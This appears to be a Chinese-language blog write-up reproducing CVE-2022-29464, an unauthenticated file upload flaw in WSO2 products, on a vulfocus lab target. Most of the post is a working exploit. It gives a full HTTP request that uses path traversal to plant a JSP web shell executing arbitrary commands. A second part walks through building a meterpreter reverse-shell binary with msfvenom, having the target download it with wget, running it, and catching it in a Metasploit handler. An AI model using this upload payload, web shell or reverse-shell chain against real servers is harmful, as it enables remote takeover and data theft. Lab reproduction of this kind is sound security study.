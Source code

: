 ```yaml
---
title: CVE-2022-29464 WSO2文件上传
date: 2023-02-08 14:55:27
tags: [CVE漏洞,文件上传漏洞]
categories: CVE漏洞复现
---
```


### 影响范围

WSO2 API Manager 																						2.2.0 及更高版本到 4.0.0
WSO2 Identity Server 																					 5.2.0 及以上至 5.11.0
WSO2 Identity Server Analytics（身份服务器分析） 								 5.4.0、5.4.1、5.5.0 和 5.6.0
WSO2  Identity Server as Key Manager（身份服务器作为密钥管理器） 5.3.0 及更高版本至 5.10.0
WSO2 Enterprise Integrator 																		 6.2.0 及更高版本至 6.6.0

<!-- more -->

### 一、漏洞描述

WSO2文件上传漏洞是Orange Tsai发现的WSO2上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意JSP文件在WSO2服务器上获得RCE。

### 二、影响范围

WSO2 API Manager 																						2.2.0 及更高版本到 4.0.0
WSO2 Identity Server 																					 5.2.0 及以上至 5.11.0
WSO2 Identity Server Analytics（身份服务器分析） 								 5.4.0、5.4.1、5.5.0 和 5.6.0
WSO2  Identity Server as Key Manager（身份服务器作为密钥管理器） 5.3.0 及更高版本至 5.10.0
WSO2 Enterprise Integrator 																		 6.2.0 及更高版本至 6.6.0

### poc:

```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

### 入口：https://ip:port/authenticationendpoint/1.jsp

### 三、漏洞复现

**1.开启靶场环境**

此处用的是vulfocus靶场相关镜像

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/1.png)

**2.访问WSO2**

访问地址为https://ip:port/carbon/admin/login.jsp

此处我的访问为 https://10.0.0.128:18966/carbon/admin/login.jsp

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/2.png)

**3.上传文件**

通过burp工具进行抓包，然后在repeater模块构造上传请求

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/3.png)

```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

返回数字即为上穿成功，任何可以通过访问https://ip:port/authenticationendpoint/1.jsp

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/4.png)

至此成功实现了CVE-2022-29464文件上传漏洞

**4.取得flag**

可以在内输入指令ls查看目录结构

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/5.png)

由于vulfocus的flag存放于tmp目录下，我们直接使用指令 ls /tmp 查看flag

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/6.png)

至此成功取得flag，本次漏洞成功复现

##### **msf反弹shell**

若是这种查看方式过于繁琐，可以使用msf取得shell

**1.生成linux木马命令**

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/7.png)

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.0.0.127 lport=4444 -f elf -o shell.elf
```

**2.使用python开启http服务**

python3 -m http.server 9999

**3.让靶机下载**

![image-20230131205930045](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/8.png)

在框中输入wget http://0.0.0.0:9999/shell.elf

并且给shell.elf文件执行权限 chmod 777 shell.elf

**4.开启msf监听**

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/9.png)



```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 10.0.0.127
set lport 4444
```

**5.使靶机运行木马**

./shell.elf

在msf中就能拿到反弹的shell

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/10.png)
